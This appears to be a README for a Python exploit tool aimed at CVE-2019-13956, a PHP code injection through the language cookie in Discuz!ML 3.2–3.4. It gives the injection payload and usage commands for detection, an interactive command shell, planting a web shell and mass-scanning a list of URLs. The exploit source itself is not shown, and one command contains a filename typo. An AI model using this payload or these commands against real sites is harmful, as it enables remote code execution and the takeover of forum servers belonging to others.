 **Discuz ML RCE** <br/>
CVE ID : CVE-2019-13956
<br/>
**URL: https://www.esoln.net/blog/2019/06/14/discuzml-v-3-x-code-injection-vulnerability/**
<br/>
**CVE URL: https://nvd.nist.gov/vuln/detail/CVE-2019-13956**
<br/>
**CVE Mitre** : https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-13956


----------------
<br/>

Discuz!ML 3.2 through 3.4 allows remote attackers to execute arbitrary PHP code via a modified language cookie, as demonstrated by changing 4gH4_0df5_language=en to 4gH4_0df5_language=en'.phpinfo().'; (if the random prefix 4gH4_0df5_ were used). 


<br/>


----------------
**Installation** 

<br/>
python2.7<br/>
pip -r requirements.txt
<br/><br/>



----------------
**Help**

`python discuz_mlRce.py -h`<br/>



----------------
**Vulnerability Detection** 

`python discuz_mlRce.py -u "http://www.ppp.cn/forum.php" `<br/>

------
**GETTING Command Shell**
<br/>
`python discuz_mlRce.py -u "http://www.ppp.cn/forum.php" --cmdshell`<br/>
----------------

**GETTING Shell URL**
<br/>
`python ddiscuz_mlRce.py -u "http://www.ppp.cn/forum.php" --getshell`<br/>
----------------

**Scanning List of URL** 
<br/>
`python discuz_mlRce.py -f urls.txt`<br/>

----------

